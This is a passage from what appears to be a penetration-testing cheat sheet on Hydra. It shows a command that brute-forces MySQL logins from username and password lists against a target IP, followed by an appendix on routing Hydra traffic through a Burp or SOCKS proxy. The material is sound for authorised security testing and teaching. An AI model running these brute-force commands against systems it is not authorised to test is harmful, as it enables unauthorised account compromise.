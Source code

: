 ```sh
hydra -L <your_username_file> -P <your_password_file> <IP> mysql -o output.txt
 # by default mysql uses port 3306 so we do not need to specify it,
 # anyway it is fundamental to specify it if the mysql port is different
```


## Appendix A: Sending Hydra traffic through Proxy


It is often useful to analyze what we are actually doing with hydra, to this
purpose we can send the traffic to an intercepting proxy such as Burp.

To do this, we just have to set an environment variable:
```sh
export HYDRA_PROXY=http://127.0.0.1:8080
# or
export HYDRA_PROXY_HTTP=http://127.0.0.1:8080 
```

From `hydra -v` we can indeed read:
```sh
Use HYDRA_PROXY_HTTP or HYDRA_PROXY environment variables for a proxy setup.
E.g. % export HYDRA_PROXY=socks5://l:p@127.0.0.1:9150 (or: socks4:// connect://)
     % export HYDRA_PROXY=connect_and_socks_proxylist.txt  (up to 64 entries)
     % export HYDRA_PROXY_HTTP=http://login:pass@proxy:8080
     % export HYDRA_PROXY_HTTP=proxylist.txt  (up to 64 entries)
```
